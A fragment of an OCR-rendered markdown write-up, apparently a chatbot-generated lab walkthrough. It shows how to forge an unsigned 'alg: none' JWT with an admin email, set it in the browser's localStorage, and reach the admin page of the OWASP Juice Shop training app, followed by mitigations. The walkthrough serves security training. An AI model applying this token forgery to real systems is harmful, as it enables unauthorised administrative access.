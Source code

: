 ```js
Set payload:

json
Copy
Edit
{
  "email": "admin@juice-sh.op",
  "role": "admin"
}
Remove the signature completely (leave only Header.Payload.).

Final format:

php-template
Copy
Edit
<base64Header>.<base64Payload>.
🔹 5. Replace Token in Browser
In DevTools Console:

js
Copy
Edit
localStorage.setItem("token", "forged_token_here.");
🔹 6. Refresh the Page
Visit:

bash
Copy
Edit
http://localhost:3000/#/administration
You should now have admin access.

✅ Success Criteria
Access to admin dashboard

Scoreboard shows ✅ “Login with administrator account”

📸 POC

🛡️ Mitigations
NEVER allow alg: none on the server

Always validate token signatures

Use vetted libraries (e.g., jsonwebtoken) with secure defaults

Enforce algorithm whitelisting

🔗 References
JWT None Algorithm Vulnerability

JWT.IO

yaml
Copy
Edit

---

### 📋 Step 2: Create `TO-DO.md`

```bash
```